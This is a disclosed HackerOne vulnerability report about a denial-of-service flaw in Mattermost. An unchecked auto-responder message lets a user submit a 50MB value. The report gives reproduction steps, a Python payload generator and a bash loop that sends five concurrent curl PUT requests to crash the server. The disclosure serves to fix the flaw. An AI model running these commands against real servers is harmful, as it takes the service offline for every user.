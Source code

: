 # DoS via Automatic Response Message

## Report Details
- **Report ID**: 1680241
- **URL**: https://hackerone.com/reports/1680241
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-08-25T14:48:33.481Z
- **Disclosed**: 2022-11-23T14:55:25.361Z

## Reporter
- **Username**: vultza
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mattermost

## Vulnerability Information
## Summary:
A user can enable and modify its automatic response message, that is automatically sent when the user has the "Out of Office" status. This response message doesn't have any size check or validation, which allows an attacker to set an almost unlimited number of characters as the response value.

In a production environment is possible to set up to 50MB of data, due to the default nginx configuration, as the response message value, which causes the server to stop responding to user requests and ultimately leads to the server crash due to the incapacity to update and handle such a large amount of data.

## Steps To Reproduce:

1. Login as a normal user in the platform.
2. Grab the `MMAUTHTOKEN` authentication token.
3. Generate the payload string, which consists in 50000000(50MB) characters. Python can be used for this:
   ```bash
   python2.7 -c "print 'A' * 50000000"
   ```
4. Send the following `PUT` request to the `/api/v4/users/me/patch` API Endpoint:
   ```
   PUT http://localhost:8065/api/v4/users/me/patch
   Content-Type: application/json
   X-CSRF-TOKEN: <csrf-token>
   Cookie: MMAUTHTOKEN=<token>
   
   {"notify_props":{"auto_responder_active":"true","auto_responder_message":"<payload>"}}
   ```
5. For a greater impact, the above request should be sent 5 times at the same time. After the requests are sent, the server will start to consume an abnormal quantity of computing resources, and crashes after some seconds.
6. The application becomes unavailable for all its users.

The steps 3-6 can be automated using the following 2 commands:

```bash
$ python2.7 -c "print '{\"notify_props\":{\"auto_responder_active\":\"true\",\"auto_responder_message\":\"' + 'A' * 50000000 + '\"}}'" > payload

$ for ((i = 0; i < 5; i++)); do curl -X PUT "http://<domain>/api/v4/users/me/patch" -H 'Content-Type: application/json' -d @payload --cookie "MMAUTHTOKEN=<token>" -H "X-CSRF-TOKEN: <csrf-token>" &; done;
```
## Supporting Material/References:

  *  PoC Video 
{F1883883}

## Impact

A user can cause a full denial of service attack in the application server, making the application server unavailable to all its users.

## Attachments
- dos-response-message.mp4
